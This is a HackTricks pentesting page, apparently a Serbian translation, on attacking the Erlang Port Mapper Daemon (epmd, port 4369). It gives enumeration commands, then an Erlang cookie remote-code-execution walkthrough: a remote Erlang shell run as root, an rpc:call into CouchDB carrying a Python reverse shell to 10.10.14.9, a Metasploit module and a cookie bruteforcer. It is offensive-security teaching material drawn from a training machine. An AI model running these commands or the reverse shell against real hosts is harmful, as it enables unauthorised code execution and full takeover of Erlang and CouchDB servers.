 # 4369 - Pentesting Erlang Port Mapper Daemon (epmd)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovne informacije

**Erlang Port Mapper Daemon (epmd)** služi kao koordinator za distribuirane Erlang instance. On je odgovoran za mapiranje simboličkih imena čvorova na mašinske adrese, osiguravajući da je svako ime čvora povezano sa određenom adresom. Ova uloga **epmd**-a je ključna za besprekornu interakciju i komunikaciju između različitih Erlang čvorova preko mreže.

**Podrazumevani port**: 4369

```
PORT     STATE SERVICE VERSION
4369/tcp open  epmd    Erlang Port Mapper Daemon
```

Ovo se podrazumevano koristi na instalacijama RabbitMQ i CouchDB.

## Enumeracija

### Ručno

```bash
echo -n -e "\x00\x01\x6e" | nc -vn <IP> 4369

#Via Erlang, Download package from here: https://www.erlang-solutions.com/resources/download.html
dpkg -i esl-erlang_23.0-1~ubuntu~xenial_amd64.deb
apt-get install erlang
erl #Once Erlang is installed this will promp an erlang terminal
1> net_adm:names('<HOST>'). #This will return the listen addresses
```

### Automatsko

Automatsko otkrivanje Erlang Port Mapper Daemon (EPMD) može biti korisno prilikom pentestiranja mrežnih usluga. EPMD je servis koji se koristi za upravljanje i mapiranje Erlang procesa na mreži. Ovaj servis je zadužen za registraciju Erlang čvorova i omogućava komunikaciju između njih.

Da biste automatski otkrili EPMD, možete koristiti alat poput Nmap-a. Nmap je popularan alat za skeniranje mreže koji može otkriti otvorene portove i identifikovati servise koji rade na tim portovima.

Kada koristite Nmap za otkrivanje EPMD-a, možete koristiti sledeću komandu:

```
nmap -p 4369 <cilj>
```

Ova komanda će skenirati ciljni sistem i proveriti da li je port 4369 otvoren. Ako je port otvoren, to ukazuje na to da je EPMD aktivan na ciljnom sistemu.

Nakon što otkrijete EPMD, možete iskoristiti različite tehnike za dalje pentestiranje. Na primer, možete pokušati da izvršite napad poput Erlang Distribution Protocol (EPMD) leak-a, koji omogućava napadaču da dobije informacije o Erlang čvorovima na mreži.

Važno je napomenuti da je pentestiranje mrežnih usluga legalno samo ako imate dozvolu vlasnika sistema. Uvek se pridržavajte etičkih smernica i zakona prilikom izvođenja bilo kakvih pentestiranja.

```bash
nmap -sV -Pn -n -T4 -p 4369 --script epmd-info <IP>

PORT     STATE SERVICE VERSION
4369/tcp open  epmd    Erlang Port Mapper Daemon
| epmd-info:
|   epmd_port: 4369
|   nodes:
|     bigcouch: 11502
|     freeswitch: 8031
|     ecallmgr: 11501
|     kazoo_apps: 11500
|_    kazoo-rabbitmq: 25672
```

## Erlang Cookie RCE

### Udaljena veza

Ako možete **procuriti autentifikacijski kolačić**, moći ćete izvršiti kod na hostu. Obično se ovaj kolačić nalazi u `~/.erlang.cookie` i generiše ga Erlang prilikom prvog pokretanja. Ako nije izmenjen ili postavljen ručno, to je nasumičan niz \[A:Z] dužine 20 karaktera.

```bash
greif@baldr ~$ erl -cookie YOURLEAKEDCOOKIE -name test2 -remsh test@target.fqdn
Erlang/OTP 19 [erts-8.1] [source] [64-bit] [async-threads:10]

Eshell V8.1 (abort with ^G)

At last, we can start an erlang shell on the remote system.

(test@target.fqdn)1>os:cmd("id").
"uid=0(root) gid=0(root) groups=0(root)\n"
```

Više informacija na [https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/](https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/)\
Autor takođe deli program za bruteforceovanje kolačića:

{% file src="../.gitbook/assets/epmd_bf-0.1.tar.bz2" %}

### Lokalna veza

U ovom slučaju ćemo zloupotrebiti CouchDB da bismo lokalno povećali privilegije:

```bash
HOME=/ erl -sname anonymous -setcookie YOURLEAKEDCOOKIE
(anonymous@canape)1> rpc:call('couchdb@localhost', os, cmd, [whoami]).
"homer\n"
(anonymous@canape)4> rpc:call('couchdb@localhost', os, cmd, ["python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.9\", 9005));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"]).
```

Primer preuzet sa [https://0xdf.gitlab.io/2018/09/15/htb-canape.html#couchdb-execution](https://0xdf.gitlab.io/2018/09/15/htb-canape.html#couchdb-execution)\
Možete koristiti **Canape HTB mašinu** da biste **vežbali** kako da **iskoristite ovu ranjivost**.

### Metasploit

```bash
#Metasploit can also exploit this if you know the cookie
msf5> use exploit/multi/misc/erlang_cookie_rce
```

## Shodan

* `port:4369 "na portu"`

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

